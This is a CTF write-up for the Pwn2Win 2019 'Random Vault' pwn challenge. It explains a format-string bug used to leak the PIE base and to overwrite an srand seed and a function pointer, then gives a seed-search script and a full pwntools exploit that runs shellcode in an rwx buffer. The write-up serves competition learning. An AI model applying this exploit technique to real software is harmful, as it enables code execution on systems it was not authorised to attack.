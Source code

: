```yaml
---
title: Random Vault  
ctf: Pwn2Win 2019 CTF
tags: [pwn2win, pwn, shellcode, srand, writeup]
date: 2019-11-10
description: "The program 2-shot format string: 1) bypass PIE; 2) modify srand seed and function pointer. The new seed lets us control the RIP so we can land on our shellcode."
---
```


With [Jorge](https://twitter.com/jorge_cmartins)

**Points:** 303 (dynamic)
**Solves:** 18

## TL;DR
1. Only two Format String vulnerability allowed.
2. Use first Format String to bypass PIE mitigation
3. Use second Format String to:
    - change srand() seed value
    - change function pointer 
4. Built shellcode and get shell



## Reversing

#### Binary Mitigations

```
Arch:   amd64-64-little
RELRO:  FULL RELRO
STACK:  Canary Found
NX:     NX enabled
PIE:    PIE enabled
```

The binary functionality is pretty simple:

#### 1. Change username
Let's you change the username **once**, will lead to `printf(username)`. The `username` is a maximum of 80 bytes long.
#### 2. Store secret
- We can store 7 secrets in the `vault` (a buffer in the `.bss`).
- Each secret is indexed on the `vault` by the last byte of `rand()`, so we don't have full control where they are stored:
```c
for (i = 0; i <= 6; ++i){
    printf("Secret #%d: ", i+1);
    r = rand();
    local_buffer[i] = r & 0xff;
    scanf("%llu", &vault[local_buffer[i]]);
}
```
- After each store, a function pointer,`target`, is called which resets the  `seed` to `seed = time(0)` and asks us if we want to reset the vault.
#### 3. Reset vault
Clears the `vault` to 0, resets the `target` pointer, resets the `seed` to `time(0)`

> **Notes:**
> The `target`, `seed` and the`vault` are all together in the bss segment:
> ```
0x5000 -> target
0x5008 -> seed
0x5010 -> vault start
      ...
0x6000 -> vault end
```
>
> And this segment has `rwx` permissions: `mprotect(&target, 0x1000, 7)`

## Vulnerability

Doing some tests on the program, we quickly spotted a format string vulnerability on `Username`

```
Welcome to the Vault!
Username: %p|%p|%p|%p
=== VAULT ===
Hello, 0x2|0xf|(nil)|0x5

Actions:
1. Change username
2. Store secret
3. Reset vault
4. Quit
```

## Exploitation

Since we can leak stack values with `username`, we immediately got the `stack cookie` and defeated `PIE mitigation`, now we know where the `target`, `seed` and `vault` are. Getting the `stack cookie` turned out to be useless since no overflow was found.
We need to keep in mind that we can write to `vault` which has `rwx` permissions, and we can overwrite `target`, with the format string, to point to the `vault`. So we need to write shellcode to the `vault`, and overwrite `target` to point to our shellcode.
There are two problems with this approach:
1. We can't control the exact location where we write in the `vault`, because the indexes are generated from the `rand()` call.
2. Brute forcing the indexes to be contiguous on a fixed offset was taking too much time.
3. If we first get a contiguous shellcode, we can't then jump to it because changing the username to alter `target` will reset the `vault`.

To solve both of this problems we could to find a `seed` value that generates at least 4 consecutive indexes out of the 7 (i.e., 1, 2, 3, 4) in order for our shellcode to be contiguous. Since our shellcode is 27 bytes long, we padded it with `nops` it becomes 32 bytes = 4 * 8.
Finding the seed is quite straightforward, with `seed = 0xdcd8`, we get 
following indexes: `12, 215, 164, 11, 64, 9, 10`
This was the script we wrote:
```python
from ctypes import *
libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")

for seed in range(0, 0x10000):
    this_round = []
    libc.srand(seed) 
    for _ in range(7):
        this_round.append(libc.rand() & 0xff)
        
    this_round.sort()
    counter = 0
    for i in range(7-1): 
        if this_round[i + 1] - this_round[i] == 1:
            counter += 1
        else:
            counter = 0
        if counter == 3:
            # show the seed and the offset to jump to
            print "seed ", hex(seed)
            print "first offset ", this_round[i+1-3]
            break
```

We have to keep in mind that the `username` buffer is only 80 bytes long, and we are on a 64-bit architecture, so have to be conservative with what we want to write.  
Because of this, we had to only partially overwrite the `target` so we could also overwrite the `seed`. 

This is our final exploit:
```python
from pwn import *
from fs_lib import *

def leak(io):
    payload = "%9$p|%11$p"
    io.sendlineafter("Username: ", payload)
    io.recvuntil("Hello, ")
    output = io.recvline()
    cookie = int(output.split("|")[0], 16)
    elf    = int(output.split("|")[1], 16) - 0x1750

    return (cookie, elf)

def exploit():
    io = remote("200.136.252.34", 1245)

    cookie, elf = leak(io)

    target = elf + 0x5000
    check  = elf + 0x4028
    vault  = elf + 0x5010
    seed   = elf + 0x5008

    log.info("cookie @ {}".format(hex(cookie)))
    log.info("elf    @ {}".format(hex(elf)))
    log.info("target @ {}".format(hex(target)))
    log.info("check  @ {}".format(hex(check)))



    seed_value = 0xdcd8
    first_rand_index = 9
    fptr_value = (vault & 0xffff) + first_rand_index*8

    # homegrown format string library
    fs = FormatString(offset=24)
    # write in 1 go, will overwrite the entire seed
    fs.write(value=seed_value, step=8, addr=seed)
    # write short (hn) will only overwrite 2 bytes
    fs.write(value=fptr_value, step=2, addr=target)
    payload = fs.payload()
    
    #overwrite target and seed
    io.sendline("1")
    io.sendline(payload)
    
    #write shellcode to vault
    io.sendline("2")
    io.sendlineafter(": ", str(u64(shellcode[-8:])))
    io.sendlineafter(": ", "+") # skip scanf
    io.sendlineafter(": ", "+")
    io.sendlineafter(": ", str(u64(shellcode[-16:-8])))
    io.sendlineafter(": ", "+")
    io.sendlineafter(": ", str(u64(shellcode[:8])))
    io.sendlineafter(": ", str(u64(shellcode[8:16])))

    io.interactive()
    io.close()

exploit()
#CTF-BR{_r4nd0m_1nd1c3s_m4ke_th3_ch4ll3nge_m0r3_fun_}
```

